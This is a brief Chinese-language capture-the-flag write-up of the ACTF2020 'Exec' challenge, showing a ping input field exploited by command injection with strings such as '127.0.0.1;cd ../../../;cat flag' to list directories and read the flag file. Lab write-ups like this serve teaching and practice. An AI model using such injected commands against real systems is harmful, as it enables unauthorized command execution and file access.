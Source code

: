 # [ACTF2020 新生赛]Execkkkv

点击题目链接 http://5e4cbe58-7998-4f70-8535-c2d9e1c3c28b.node5.buuoj.cn:81

![](./d067f1a6b6b200bf1d546c6145c016f.png)

尝试输入127.0.0.1

![](./a0e2064e7554b06f7d09dc77fc1367c.png)

利用 ../ 向上遍历，当传入127.0.0.1;cd ../../../;ls 时看到了flag

![](./f2850ad5d597df6af191263048ab75b.png)

输入127.0.0.1;cd ../../../;cat flag命令获得flag

![](./82d0fb03e8504c131274bde57f0c013.png)

提交flag